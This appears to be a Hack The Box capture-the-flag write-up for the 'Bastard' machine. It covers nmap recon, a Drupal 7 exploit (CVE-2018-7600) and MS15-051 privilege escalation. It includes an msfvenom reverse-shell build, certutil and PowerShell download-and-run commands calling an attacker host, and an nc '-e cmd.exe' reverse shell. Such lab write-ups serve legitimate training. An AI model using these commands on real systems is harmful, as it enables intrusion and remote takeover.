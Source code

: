 ```yaml
---
title: "Bastard - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Bastard
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## Bastard
![](https://kar0nx.github.io/assets/images/writeup/a8d2ae87fbe6d1ccfe93522d74defb3a.webp)
 
## Reconnaissance

IP: 10.10.10.9
### NMAP

```
nmap -T4 -p- -A 10.10.10.9
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-10 12:14 EDT
Nmap scan report for 10.10.10.9
Host is up (0.032s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|Vista|8.1 (90%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows Embedded Standard 7 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 Professional or Windows 8 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%), Microsoft Windows Vista SP2 (89%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   31.68 ms 10.10.14.1
2   32.18 ms 10.10.10.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 160.36 seconds
```
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250310171757.png)

```
http://10.10.10.9/CHANGELOG.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250310173135.png)

https://github.com/pimps/CVE-2018-7600

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311154652.png)


## Gaining Access

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=1337 -f exe -o reverse.exe

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=1337 -f exe -o reverse.exe
```

```
nc -nvlp 1337
```

```
python3 drupa7-CVE-2018-7600.py http://10.10.10.9/ -c 'certutil.exe -urlcache -f http://10.10.14.23/reverse.exe rev.exe'

python3 drupa7-CVE-2018-7600.py http://10.10.10.9/ -c 'rev.exe' 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311155500.png)
## Privilege Escalation

https://book.hacktricks.wiki/en/windows-hardening/basic-powershell-for-pentesters/index.html

```
python3 drupa7-CVE-2018-7600.py  http://10.10.10.9/ -c "echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.23/Sherlock.ps1') | powershell -noprofile -"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311163529.png)

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311164722.png)

```
cd c:/temp
```

```
certutil.exe -urlcache -f http://10.10.14.23/ms15-051x64.exe ms15.exe
```

```
certutil.exe -urlcache -f http://10.10.14.23/nc.exe nc.exe
```

```
ms15.exe "nc.exe 10.10.14.23 4444 -e cmd.exe"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311165526.png)